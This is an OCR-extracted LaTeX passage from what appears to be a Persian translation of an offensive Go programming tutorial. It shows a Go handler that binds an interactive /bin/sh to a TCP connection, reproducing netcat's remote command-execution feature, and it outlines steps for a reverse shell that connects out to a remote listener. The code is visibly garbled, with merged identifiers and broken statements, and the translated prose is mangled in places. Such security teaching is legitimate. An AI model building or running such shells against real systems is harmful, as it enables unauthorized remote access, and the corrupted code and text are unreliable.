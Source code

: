 \documentclass[12pt]{book}
\begin{document}
{با استفاده ازPipeReaderandPipeWriter به شما اجازه می دهد تا به طور صریح و روشن به نویسنده متلاشی نشوید و همزمان اتصال stdoutand و اتصال TCP را از بین ببرید. شما ، در عین حال ، عملکرد عملکرد را بازنویسی خواهید کرد:
\begin{latin}
	\begin{lstlisting}
func handle(connnet.Conn) {
	// Explicitly calling /bin/sh and using -i for interactive mode
	// so that we can use it for stdin and stdout.
	//For Windows use exec.Command("cmd.exe").
	cmd := exec.Command("/bin/sh", "-i")
	// Set stdin to our connection
	rp, wp := io.Pipe()
	cmd.Stdin =connv cmd.Stdout = wpw go io.Copy(conn, rp) cmd.Run() conn.Close()}
	\end{lstlisting}
\end{latin}

فراخوانی io.Pipe () هم خواننده و هم نویسنده ای را که به طور همزمان در ارتباط هستند ucreates می کند - هر داده ای که برای نویسنده نوشته شده است (wpinthis exam-ple) توسط خواننده خوانده می شود (rp) .بنابراین ، شما نویسنده را به cmd اختصاص می دهید. .Stdoutvand سپس از Copy (Writer، Reader) w برای پیوند PipeReaderto TCPcon-nection استفاده کنید. شما این کار را با استفاده از agoroutinetopreventthecodefrom block-ing انجام می دهید. اتصال TCP چگونه این برای ظریف است؟

با این کار ، شما با موفقیت حفره امنیتی شکاف Netcat را از منظر شنونده TCP که منتظر یک اتصال است ، پیاده سازی کرده اید. می توانید از منطق مشابهی برای پیاده سازی ویژگی از منظر مشتری متصل کننده جهت تغییر مسیر stdout و stdin یک باینری محلی به شنونده از راه دور استفاده کنید. جزئیات دقیق برای تعیین به شما واگذار شده است ، اما احتمالاً موارد زیر را شامل می شود:
\begin{enumerate}
	\item اتصال به یک گوش دهنده راه دور vianet.Dial (شبکه ، آدرس دهی) را برقرار کنید.
	\item aCmd viaexec.Command را شروع کنید (رشته رشته ، Arg ... رشته).
	\item جهت استفاده از thenet.Connobject از StdinandStdoutproperties تغییر مسیر دهید.
	\item دستور را اجرا کنید.
\end{enumerate}

در این مرحله شنونده باید یک اتصال دریافت کند. داده های ارسالی به مشتری باید به عنوان stdin در مورد مشتری تعبیر شود ، و هر گونه داده دریافت شده در شنونده باید به عنوان stdout تفسیر شود. کد کامل این مثال در https://github.com/blackhat-go/bhg/ ch-2 / netcat-exec /.
\section{}
اکنون که برنامه‌های کاربردی کاربردی و استفاده از Go را به عنوان مربوط به شبکه ، I / O و همزمانی مورد بررسی قرار داده اید ، بیایید به سمت ایجاد سرویس گیرنده های قابل استفاده HTTP حرکت کنیم.
}
\end{document}
